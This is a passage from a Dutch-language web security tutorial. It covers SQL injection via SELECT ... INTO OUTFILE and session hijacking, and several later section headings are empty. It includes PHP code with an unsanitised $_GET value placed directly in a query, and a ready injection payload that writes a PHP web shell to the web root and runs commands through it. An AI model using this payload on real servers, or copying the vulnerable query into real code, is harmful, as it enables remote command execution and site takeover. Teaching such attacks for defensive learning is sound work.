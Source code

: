 		$rPagina = mysqli_query($db, "SELECT titel, inhoud FROM paginas WHERE id=".$_GET['pagina']." LIMIT 1");
		if (mysqli_num_rows($rPagina) > 0)
		{
			$aPagina = mysqli_fetch_assoc($rPagina);

			echo "
				<h1>".$aPagina['titel']."</h1>
				".$aPagina['inhoud'];
		}
	?>

Zoals wij eerder gezien hebben kan je dan gegevens opvragen, maar sommige SQL accounts hebben ook toegang tot de [SELECT ... INTO](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) syntax. Je webapplicatie moet wel schrijfrechten hebben op de plaats waar je een bestand wilt wegschrijven. Denk dan aan logische locaties zoals /tmp (heb je wel een LFI nodig) of in een directory van de webserver. Ook mappen waar de website sowieso file uploads opslaat zijn goede locaties.

Een voorbeeld van een injectie die je dan kan doen is als volgt:

`-1 UNION SELECT 1, '<?PHP $return = array(); exec($_GET['c'],$return); echo implode("\n",$return); ?>' INTO OUTFILE '/var/www/html/shell.php' # --`

Als je dan op de webserver de file shell.php opvraagt met als querystring c=ls dan zal je de directory listing zien van de /var/www/html map.  

## Client-side controle functionaliteiten ##

### Authenticatiefouten ###

### Sessie management ###
Veel webapplicaties maken gebruik van sessies om de gebruikerservaring te verbeteren. In dit soort sessies worden bijvoorbeeld de gebruikersgegevens over authenticatie en identificatie opgeslagen. Hiermee kan een website bepalen tegen welke gebruiker hij praat en of deze gebruiker al dan niet ingelogged is. 

De identifiers van deze sessies worden in een cookie opgeslagen. Deze gegevens moeten met elke pagina refresh meegezonden worden omdat een HTTP request in zichzelf stateless is.

In PHP heten deze session, standaard, cookies PHPSESSIONID en in Java JSESSIONID.

Als je door middel van, bijvoorbeeld, XSS de session id's kan stelen is het in sommige webapplicaties mogelijk om jezelf voor te doen als een andere gebruiker. Krijg je zo de cookies van een administrator te pakken, dan kan je de gehele website overnemen.

### NoSQL ###

### CSP Bypass ###

### XPath ###

### LDAP ###
